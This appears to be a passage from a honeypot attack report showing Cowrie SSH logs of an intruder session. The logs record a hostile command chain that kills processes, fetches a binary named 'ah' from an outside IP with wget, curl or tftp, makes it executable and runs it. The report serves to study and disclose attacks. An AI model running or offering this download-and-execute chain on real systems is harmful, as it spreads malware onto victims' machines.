 ```verilog
2023-11-30T01:42:07.357419Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: rm -rf rootsenpai
2023-11-30T01:42:07.457483Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: for dir in /proc/[0-9]*; do grep -q "(deleted)" "$dir/maps" && echo "Killing process with PID: $(basename $dir)" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah
2023-11-30T01:42:07.458423Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.459906Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.460015Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.460604Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.461305Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.461404Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.462372Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command for
2023-11-30T01:42:07.462472Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: for dir in /proc/ [ 0-9 ] *
2023-11-30T01:42:07.463164Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command deleted
2023-11-30T01:42:07.463262Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: deleted $dir/maps
2023-11-30T01:42:07.463781Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo Killing process with PID: 
2023-11-30T01:42:07.464210Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: kill -9 
2023-11-30T01:42:07.464521Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: done ;; rm -rf ah
2023-11-30T01:42:07.464818Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: wget http://94.156.68.152/ah
2023-11-30T01:42:57.566448Z [HoneyPotSSHTransport,46,204.76.203.13] Saved redir contents with SHA-256 199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8 to var/lib/cowrie/downloads/199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8
2023-11-30T01:42:57.567406Z [HoneyPotSSHTransport,46,204.76.203.13] Closing TTY Log: var/lib/cowrie/tty/35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f after 50 seconds
2023-11-30T01:42:57.643590Z [HoneyPotSSHTransport,46,204.76.203.13] avatar root logging out
2023-11-30T01:42:57.643806Z [HoneyPotSSHTransport,46,204.76.203.13] Connection lost after 51 seconds

```

</details>

---


## Cowrie .json Logs
Total Cowrie logs: `94`

#### First Session With Commands 651b145b8fb8 Cowrie .json Logs
This sample shows the Cowrie `.json` Logs for session_id `651b145b8fb8` the first session in this attack where the attacker exectuted commands in on the honeypot system.Here is the full log:

